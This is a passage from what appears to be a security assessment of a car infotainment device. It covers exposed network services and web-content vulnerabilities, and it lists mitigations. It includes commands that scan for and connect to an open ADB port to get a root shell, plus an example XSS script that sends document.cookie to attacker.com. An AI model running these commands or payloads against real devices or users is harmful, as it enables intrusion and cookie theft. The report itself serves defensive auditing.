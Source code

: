 **Severity**: 🟡 **MEDIUM**
**CVSS Score**: 6.5 (Medium)

**Description**: Network services may be exposed without proper authentication.

**Potentially Exposed Services**:
- ADB (Android Debug Bridge) - port 5555
- HTTP server (for updates?) - port 80/8080
- Telnet (if enabled) - port 23
- SSH (if enabled) - port 22
- Bonjour/mDNS services
- UPnP/DLNA services

**Impact**:
- Remote access to device
- Information disclosure
- Remote code execution
- Network reconnaissance

**Discovery**:
```bash
# Scan device network
nmap -sV -p- <device_ip>

# Check for ADB
adb connect <device_ip>:5555
adb shell  # If successful, get root shell
```

**Mitigation**:
- Disable unnecessary network services
- Require authentication for all services
- Use firewall to block external access
- Implement network segmentation
- Use VPN for remote access only

---

### 10. Web Content Vulnerabilities

**Severity**: 🟡 **MEDIUM**
**CVSS Score**: 5.9 (Medium)

**Description**: If device renders web content (for Android Auto, CarPlay, or built-in browser), standard web vulnerabilities apply.

**Potential Issues**:
- Cross-Site Scripting (XSS)
- SQL Injection (if database used)
- Path traversal
- Insecure deserialization
- Buffer overflows in HTML/CSS parser

**Attack Scenario**:
```html
<!-- Malicious CarPlay app sends this HTML -->
<script>
// XSS exploit
fetch('http://attacker.com/steal?data=' + document.cookie);
</script>
```
